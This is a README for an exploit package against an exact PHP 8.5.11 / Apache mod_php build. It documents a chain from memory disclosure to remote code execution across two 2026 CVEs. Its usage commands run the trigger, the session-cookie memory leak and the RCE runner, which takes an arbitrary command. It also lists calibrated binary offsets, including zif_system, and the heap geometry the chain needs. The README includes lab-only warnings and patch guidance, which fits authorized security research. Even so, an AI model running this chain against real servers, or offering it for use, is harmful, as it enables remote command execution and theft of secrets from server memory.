

# PHP 8.5.11 Exact-Build Disclosure and RCE PoC

> **Authorized laboratory research only.** These scripts send large multipart requests, occupy Apache workers, intentionally trigger memory exhaustion, and can interrupt or crash web workers. The integrated runner can execute a command on the target. Use only in an isolated environment you own or are explicitly authorized to test.

> **Patch vulnerable systems.** PHP’s official advisory identifies **8.5.12, 8.4.27, 8.3.36, and 8.2.35** as the fixed releases for CVE-2026-109618 and CVE-2026-109619. Updating is the only complete remediation; configuration changes are partial mitigations. See the [PHP security advisory](https://www.php.net/archive/2026.php#2026-10-21-5).

## What this repository is

This is a sanitized research package for studying an **exact PHP 8.5.11 / Apache mod_php build** in an authorized lab. It combines:

- a trigger-only CVE-2026-109618 request builder;
- an A1/B1 session-memory disclosure and validation runner;
- an offline disclosure validator;
- an integrated fresh-leak → validation → RCE → proof runner;
- a high-resolution execution diagram and its editable source.

It is **not** a universal PHP exploit, a vulnerability scanner, or a reliable compatibility check for every PHP 8.5.11 installation.

## Repository contents

| File | Purpose | Network traffic |
|---|---|---|
| `poc_cve_2026_109618_trigger.py` | Builds one OOM-amplification request; contains no cookie parser, addresses, ROP, or command execution | Dry-run by default; sends once only with `--send` |
| `php8511_cookie_leak.py` | Actively runs A1/B1, decodes the `PHPSESSID` disclosure, validates pointers, and saves evidence | Yes |
| `validate_php_leak.py` | Validates a previously captured response/cookie using caller-supplied profile offsets | **No** |
| `php8511_rce.py` | Obtains a fresh leak, validates it, derives addresses internally, sends one RCE request, and checks proof when using the default command | Yes |
| `docs/execution-diagram.png` | Complete execution and failure-gate diagram | N/A |
| `docs/editor/` | Editable diagram project | N/A |

## Requirements

- Python **3.10+**; tested with Python 3.12
- Python standard library only—no third-party packages
- An isolated, authorized target matching the calibrated profile below

Check syntax without running any network stage:

```bash
python3 -m py_compile \
  php8511_cookie_leak.py \
  php8511_rce.py \
  validate_php_leak.py \
  poc_cve_2026_109618_trigger.py
```

## Exact validated profile

| Property | Calibrated value |
|---|---|
| PHP | 8.5.11 NTS / Zend Engine 4.5.11 |
| Apache | 2.4.66 Ubuntu, `mod_php`, prefork |
| Architecture | x86-64, little-endian |
| Build flags | `-O2 -g -fno-omit-frame-pointer -fcf-protection=none` |
| PHP configuration | Unmodified upstream `php.ini-production`, including `memory_limit=128M` |
| `libphp.so` SHA-256 | `ecd97e302e8cb3fd106c0541410256ad6597cb6410166beee0ab773ff4974b36` |
| GNU Build ID | `c01226a7f67b3226c1d2f81f4fc5041846914117` |

Important calibrated constants include:

```text
zval_ptr_dtor offset = 0x7AE960
zif_system offset    = 0x598650
heap delta           = 0x3400000
RCE block offset     = 0x5C400
forge page           = 0x1E3
fake length          = 0x1C000
RCE duplicate headers= 402500
```

A matching `PHP_VERSION` string is insufficient. Distribution packages, compiler options, architecture, thread-safety mode, loaded modules, memory limits, and runtime layout can require different binary offsets and heap/request geometry.

## 1. Trigger-only PoC

Build the request without sending anything:

```bash
python3 poc_cve_2026_109618_trigger.py
```

The default dry-run reports the body size and SHA-256. To transmit exactly once in an authorized lab:

```bash
python3 poc_cve_2026_109618_trigger.py \
  --host TARGET_IP \
  --port 80 \
  --path /index.php \
  --send \
  --response-out trigger-response.raw
```

**This script does not produce the A1/B1 `PHPSESSID` memory disclosure.** An HTTP 500, disconnect, or OOM message alone does not prove the incomplete-bucket memory-corruption path. Confirm that behavior with target-side logs/debugging and a patched control.

## 2. Optional leak-stage diagnostic

```bash
python3 php8511_cookie_leak.py \
  --host TARGET_IP \
  --port 80 \
  --path /index.php \
  --evidence-dir evidence/leak
```

This is not a passive check. It performs:

```text
worker discovery and pinning
→ A1 calibrated OOM / stale session state
→ B1 reclamation and forged zend_string
→ overlong Set-Cookie: PHPSESSID disclosure
→ URL decoding and pointer extraction
→ libphp/heap consistency checks
→ evidence collection
→ stop before RCE
```

Evidence files include:

```text
a1-response.raw
b1-response.raw
b1-cookie.txt
b1-cookie.bin
validated-leak.json    # or rejected-leak.json
```

A normal-sized session cookie is not a disclosure. A `VALIDATED` result means the pointers passed the configured consistency checks; it does **not** prove that the RCE stage is compatible.

## 3. Offline validation

The offline validator sends no traffic and rejects missing, weak, or ambiguous evidence:

```bash
python3 validate_php_leak.py evidence/leak/b1-response.raw \
  --input-format response \
  --dtor-offset 0x7AE960 \
  --heap-delta 0x3400000
```

Its default thresholds are independent of the integrated runner and can be adjusted with `--min-dtor-count` and `--min-heap-count`. Exit status is:

- `0`: `VALIDATED`
- `2`: `REJECTED` or `AMBIGUOUS`
- `1`: input error

Treat disclosed cookies as sensitive evidence: process memory can contain credentials, session data, keys, or other secrets. **Do not commit evidence directories or raw responses.**

## 4. Integrated fresh-leak-to-RCE runner

Do **not** copy addresses from a previous leak-only run. The integrated runner obtains and consumes its own fresh leak in one invocation:

```bash
python3 php8511_rce.py \
  --host TARGET_IP \
  --port 80 \
  --path /index.php \
  --rce \
  --evidence-dir evidence/rce
```

Bare `--rce` uses the calibrated default command:

```bash
id>/var/www/html/proof.txt
```

It then requests `/proof.txt` and reports `VERIFIED` only if the expected `id` output is present. The proof file is on the **target**, not on the testing machine; retrieve it independently with:

```bash
curl http://TARGET_IP/proof.txt
```

For a custom command:

```bash
python3 php8511_rce.py \
  --host TARGET_IP \
  --path /index.php \
  --evidence-dir evidence/custom \
  --rce 'COMMAND'
```

Custom commands normally produce `DELIVERED_UNVERIFIED` unless the runner has a separate proof mechanism. The command carrier is **48 bytes including the terminating null byte**, so the visible command must be at most 47 bytes. An empty RCE POST response is not, by itself, proof of success or failure.

## Fresh-leak rule

```text
WRONG: leak-only run → save addresses → reuse them in a later RCE run
RIGHT: integrated runner → fresh leak → validate → derive internally → RCE
```

ASLR changes runtime bases, not image-relative offsets. A leak supplies runtime pointer evidence; the configured offsets still must belong to the exact target binary.

## Execution diagram



The editable project is in `docs/editor/`; open `PHP_8511_Execution_Diagram.kanva.pptd` in the compatible editor.

## Security and remediation

PHP describes the two mechanisms as:

- **CVE-2026-109618:** OOM handling can interrupt request initialization, leaving partially initialized internal data that cleanup may treat as valid.
- **CVE-2026-109619:** request-owned state can outlive its backing memory, allowing stale state to cross request boundaries.

Update to **8.5.12, 8.4.27, 8.3.36, or 8.2.35**, or install the appropriate vendor backport. The PHP project states that updating is the only complete solution. Temporary configuration measures reduce exposure to particular paths but are not substitutes for patching.

## References

- [PHP 2026 security advisory and release news](https://www.php.net/archive/2026.php#2026-10-21-5)
- [PHP 8.5.12 release announcement](https://news-web.php.net/php.announce/513)
- [Datadog Security Labs: PHP2Shell analysis, detection, and remediation](https://securitylabs.datadoghq.com/articles/php2shell-critical-vulnerabilities-in-php/)
- [Detailed execution and troubleshooting notes](docs/technical-notes.md)

## Responsible handling

- Keep testing isolated and authorized.
- Do not publish target evidence, leaked process memory, flags, credentials, or identifying infrastructure.
- Do not represent this exact-build calibration as an affected-version assessment.
- No license is granted by default; add an explicit license before public redistribution if desired.
